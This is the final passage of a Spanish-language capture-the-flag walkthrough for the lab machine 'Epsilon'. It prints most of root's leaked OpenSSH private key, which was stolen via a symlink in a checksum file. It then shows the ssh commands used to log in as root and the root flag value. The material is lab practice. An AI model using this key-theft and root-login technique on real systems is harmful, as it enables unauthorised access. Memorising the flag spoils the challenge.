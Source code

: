 ```
r1yPwVQeN5r6l134FEKppGOtoJiJn+MYT+EVsBwjklPJwyb9rNvorDHmCFxEgfJdcFj/RI
j6NDVpSfFj3tp84kgevL2Y0EucsS0bUL5Er6RwalvdH6x1paRtXl1SvEvQdNT7hKMUI0tH
zQEmds4RvEydVwGpsU92LjoV9iurLB9+llWEizhf9ig5WbGycscBtFfEJIBbtAz2dFfHJL
odKPi5uuDxV5UsjhXG/9UlP8MIneIvWmM4TTkDsQ0j4dr5l8Tw5AdP3SwDusAZTmpGLM67
lSzJJ4D/PUDiiyBmrJsyFPNeiirn1HS0hXM4oPemlUcXhXFQB4Ita8tTu066AiCXsIb7If
CP5HpgITR48Ld4phrpVJpSMP7NXKXQAAAAMBAAEAAAGBAMULlg7cg8oaurKaL+6qoKD1nD
Jm9M2T9H6STENv5//CSvSHNzUgtVT0zE9hXXKDHc6qKX6HZNNIWedjEZ6UfYMDuD5/wUsR
EgeZAQO35XuniBPgsiQgp8HIxkaOTltuJ5fbyyT1qfeYPqwAZnz+PRGDdQmwieIYVCrNZ3
A1H4/kl6KmxNdVu3mfhRQ93gqQ5p0ytQhE13b8OWhdnepFriqGJHhUqRp1yNtWViqFDtM1
lzNACW5E1R2eC6V1DGyWzcKVvizzkXOBaD9LOAkd6m9llkrep4QJXDNtqUcDDJdYrgOiLd
/Ghihu64/9oj0qxyuzF/5B82Z3IcA5wvdeGEVhhOWtEHyCJijDLxKxROuBGl6rzjxsMxGa
gvpMXgUQPvupFyOapnSv6cfGfrUTKXSUwB2qXkpPxs5hUmNjixrDkIRZmcQriTcMmqGIz3
2uzGlUx4sSMmovkCIXMoMSHa7BhEH2WHHCQt6nvvM+m04vravD4GE5cRaBibwcc2XWHQAA
AMEAxHVbgkZfM4iVrNteV8+Eu6b1CDmiJ7ZRuNbewS17e6EY/j3htNcKsDbJmSl0Q0HqqP
mwGi6Kxa5xx6tKeA8zkYsS6bWyDmcpLXKC7+05ouhDFddEHwBjlCck/kPW1pCnWHuyjOm9
eXdBDDwA5PUF46vbkY1VMtsiqI2bkDr2r3PchrYQt/ZZq9bq6oXlUYc/BzltCtdJFAqLg5
8WBZSBDdIUoFba49ZnwxtzBClMVKTVoC9GaOBjLa3SUVDukw/GAAAAwQD0scMBrfeuo9CY
858FwSw19DwXDVzVSFpcYbV1CKzlmMHtrAQc+vPSjtUiD+NLOqljOv6EfTGoNemWnhYbtv
wHPJO6Sx4DL57RPiH7LOCeLX4d492hI0H6Z2VN6AA50BywjkrdlWm3sqJdt0BxFul6UIJM
04vqf3TGIQh50EALanN9wgLWPSvYtjZE8uyauSojTZ1Kc3Ww6qe21at8I4NhTmSq9HcK+T
KmGDLbEOX50oa2JFH2FCle7XYSTWbSQ9sAAADBAOD9YEjG9+6xw/6gdVr/hP/0S5vkvv3S
527afi2HYZYEw4i9UqRLBjGyku7fmrtwytJA5vqC5ZEcjK92zbyPhaa/oXfPSJsYk05Xjv
6wA2PLxVv9Xj5ysC+T5W7CBUvLHhhefuCMlqsJNLOJsAs9CSqwCIWiJlDi8zHkitf4s6Jp
Z8Y4xSvJMmb4XpkDMK464P+mve1yxQMyoBJ55BOm7oihut9st3Is4ckLkOdJxSYhIS46bX
BqhGglrHoh2JycJwAAAAxyb290QGVwc2lsb24BAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Observamos que al abrir el checksum, ya no es un sha1 del archivo tar original, sino la id_rsa de root debido al symlink. Con esto ahora solo falta copiarnosla y darle el privilegio 600 y entrar con ssh:
```
nano id_rsa
chmod 600 id_rsa

ssh -i id_rsa root@10.10.11.134
```
```
root@epsilon:~# whoami
root
```

Hemos logrado entrar como el usuario root, vamos a buscarla la flag:

```
root@epsilon:~# cat /root/root.txt
fadbe3960616546fc32f5a2
```

¡Listo! Hemos terminado la máquina.

Nos vemos, hasta la próxima.
